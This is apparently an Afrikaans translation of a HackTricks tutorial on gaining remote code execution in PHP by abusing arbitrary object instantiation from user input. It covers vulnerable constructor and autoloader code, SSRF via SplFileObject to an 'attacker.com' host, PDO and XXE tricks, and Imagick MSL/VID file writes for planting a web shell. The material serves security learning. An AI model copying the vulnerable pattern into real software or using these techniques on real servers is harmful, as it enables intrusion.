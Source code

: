 # PHP - RCE wat objekcreasie misbruik: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Dit is basies 'n opsomming van [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Inleiding

Die skepping van nuwe arbitrêre objek, soos `new $_GET["a"]($_GET["a"])`, kan lei tot Remote Code Execution (RCE), soos in 'n [**skrywe**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) uiteengesit. Hierdie dokument beklemtoon verskeie strategieë om RCE te bereik.

## RCE via Aangepaste Klasse of Autoloading

Die sintaksis `new $a($b)` word gebruik om 'n objek te instantiëer waar **`$a`** die klasnaam verteenwoordig en **`$b`** die eerste argument is wat aan die konstruktors oorhandig word. Hierdie veranderlikes kan afkomstig wees van gebruikersinsette soos GET/POST, waar hulle moontlik strings of arrays is, of van JSON, waar hulle as ander tipes kan voorkom.

Oorweeg die kode-snippet hieronder:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
In hierdie geval lei die instelling van `$a` na `App` of `App2` en `$b` na 'n stelselaanroep (bv. `uname -a`) tot die uitvoering van daardie aanroep.

**Outomatiese laai funksies** kan uitgebuit word as daar geen sulke klasse direk toeganklik is nie. Hierdie funksies laai outomaties klasse vanaf lêers wanneer nodig en word gedefinieer met behulp van `spl_autoload_register` of `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Die gedrag van outomatiese laai varieer met PHP weergawes, wat verskillende RCE moontlikhede bied.

## RCE via Ingeboude Klasse

In die afwesigheid van pasgemaakte klasse of outomatiese laaiers, kan **ingeboude PHP klasse** voldoende wees vir RCE. Die aantal van hierdie klasse wissel tussen 100 en 200, gebaseer op die PHP weergawe en uitbreidings. Hulle kan gelys word met `get_declared_classes()`.

Konstruktors van belang kan geïdentifiseer word deur die refleksie API, soos in die volgende voorbeeld en die skakel [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE via spesifieke metodes sluit in:**

### **SSRF + Phar Deserialisering**

Die `SplFileObject` klas stel SSRF in staat deur sy konstruktor, wat verbindings na enige URL toelaat:
```php
new SplFileObject('http://attacker.com/');
```
SSRF kan lei tot deserialisering aanvalle in weergawes van PHP voor 8.0 wat die Phar protokol gebruik.

### **Eksploitering van PDO's**

Die PDO klas konstrukteur laat verbindings toe tot databasisse via DSN stringe, wat moontlik lêer skep of ander interaksies moontlik maak:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Weergawes van PHP tot 5.3.22 en 5.4.12 was vatbaar vir XXE-aanvalle deur die `SoapClient` en `SimpleXMLElement` konstruktors, afhangende van die weergawe van libxml2.

## RCE via Imagick Extension

In die analise van 'n **projek se afhanklikhede**, is ontdek dat **Imagick** benut kan word vir **opdrag uitvoering** deur nuwe voorwerpe te instansieer. Dit bied 'n geleentheid om kwesbaarhede te benut.

### VID parser

Die VID parser vermoë om inhoud na enige gespesifiseerde pad in die lêerstelsel te skryf, is geïdentifiseer. Dit kan lei tot die plasing van 'n PHP-shel in 'n web-toeganklike gids, wat Remote Code Execution (RCE) bereik.

#### VID Parser + Lêer Oplaai

Daar word opgemerk dat PHP tydelik opgelaaide lêers in `/tmp/phpXXXXXX` stoor. Die VID parser in Imagick, wat die **msl** protokol gebruik, kan wildcard in lêerpaaie hanteer, wat die oordrag van die tydelike lêer na 'n gekose ligging vergemaklik. Hierdie metode bied 'n addisionele benadering om arbitrêre lêer skryf binne die lêerstelsel te bereik.

### PHP Crash + Brute Force

'n Metode wat in die [**oorspronklike skrywe**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) beskryf word, behels die oplaai van lêers wat 'n bedienerkragopval veroorsaak voordat dit verwyder word. Deur die naam van die tydelike lêer te brute-force, word dit moontlik vir Imagick om arbitrêre PHP-kode uit te voer. Hierdie tegniek is egter gevind om slegs effektief te wees in 'n verouderde weergawe van ImageMagick.

## References

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
